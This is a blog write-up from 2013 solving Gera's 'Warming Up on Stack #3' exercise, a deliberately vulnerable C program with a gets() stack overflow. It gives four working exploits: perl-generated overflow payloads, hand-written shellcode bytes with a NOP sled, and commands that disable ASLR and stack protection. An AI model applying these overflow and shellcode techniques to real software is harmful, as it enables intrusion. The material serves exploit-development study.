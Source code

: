 Gera's Warming Up on Stack #3 - Solutions
==========================================
date: 03/Jan/2013
summary: Solutions for Gera's Warming up on Stack #3 program.
tags: exploit, ctf

## Introduction

Following is the part 3 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #2 - Solutions](/posts/20130102_geras-wuos-stack2-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program:

```c
/* stack3.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020005)
        printf("you win!\n");
}
```

The above program accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message
printed:

- Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020005`
- Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020005`

Here's the GCC commandline to prepare [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack3 stack3.c
stack3.c: In function ‘main’:
stack3.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccuoj5F5.o: In function `main':
stack3.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html):

```
# perl -e 'print "A"x80 . "\x05\x00\x02\x01"' | ./stack3
buf: bfd625a4 cookie: bfd625f4
you win!
```

### Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and find out the location of the `printf` function which displays the `you win!` message:

```
# objdump -d -M intel stack3 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 <printf@plt>
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 <gets@plt>
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 00 02 01          cmp    eax,0x1020005
 8048477:   75 0c                   jne    8048485 <main+0x41>
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 <puts@plt>
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack3
buf: bfb82e64 cookie: bfb82eb4
you win!
Segmentation fault
```

### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack3 stack3.c 2>/dev/null ; readelf -l stack3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!#
```

### Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack3
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
